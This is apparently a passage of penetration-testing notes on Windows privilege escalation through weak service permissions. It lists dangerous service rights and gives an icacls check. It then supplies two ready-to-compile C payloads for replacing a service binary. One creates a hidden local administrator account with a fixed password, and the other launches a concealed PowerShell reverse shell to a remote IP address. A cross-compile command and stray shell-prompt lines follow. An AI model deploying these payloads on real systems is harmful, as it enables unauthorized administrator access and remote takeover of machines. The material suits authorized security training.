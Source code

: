 Privileges can be escalated through various permissions:

    SERVICE_CHANGE_CONFIG: Allows reconfiguration of the service binary.
    WRITE_DAC: Enables permission reconfiguration, leading to the ability to change service configurations.
    WRITE_OWNER: Permits ownership acquisition and permission reconfiguration.
    GENERIC_WRITE: Inherits the ability to change service configurations.
    GENERIC_ALL: Also inherits the ability to change service configurations.


```bash
icacls "C:\xampp\mysql\bin\mysqld.exe"
```

If Auto is the Start Mode, you can restart the service if you can reboot the computer.

### Elevate Priviledges of Running Service Binary

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user overlord password123! /add");
  i = system ("net localgroup administrators overlord /add");
  
  return 0;
}
```
or
```c
#include <stdio.h>

int main() {
    int i;
    // Reverse shell command to your attacker machine
    i = system("powershell -NoP -NonI -W Hidden -Exec Bypass -Command $client = New-Object "
               "System.Net.Sockets.TCPClient('192.168.45.225',445);$stream = $client.GetStream();"
               "[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){"
               ";$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);"
               "$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';"
               "$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);"
               "$stream.Flush()};$client.Close()");
    return 0;
}

````
You need to cross-compile the code on our Kali machine with mingw-64.

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname